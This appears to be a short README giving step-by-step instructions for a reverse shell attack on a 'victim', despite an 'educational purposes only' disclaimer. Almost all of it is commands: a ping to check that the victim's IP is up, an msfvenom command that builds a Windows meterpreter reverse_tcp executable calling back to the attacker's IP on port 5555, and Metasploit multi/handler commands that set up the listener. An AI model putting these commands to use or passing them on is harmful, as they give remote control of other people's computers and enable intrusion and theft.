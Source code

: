 # How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

---
**¡¡DISCLAIMER!!:** <br /><br />
		**I'm doing this for educational purposes only.**<br />
		**I'm not responsible of any illegal or harmful uses of this file.**<br />
		**The bad use of this Write-up may cause any type of damage to the victim**<br />
  		**Use this file responsibly, otherwise you can get in trouble**<br />

---
Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	```
	ping [IP]
 	```

3. **Create a folder with a basic name and get into that folder.**
	```
	mkdir [folder-name] && cd [folder-name]
	```


5. **On the folder created previously execute the command below:**
	```
 	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe
	```


7. **Open metasploit and execute this command:** 
	```
	use exploit/multi/handler
 	```


9. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	```
 	set payload windows/meterpreter/reverse_tcp
	```


11. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	```
 	set LHOST (YOUR IP)
	set LPORT 5555
 	```


13. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	```
	exploit
 	```

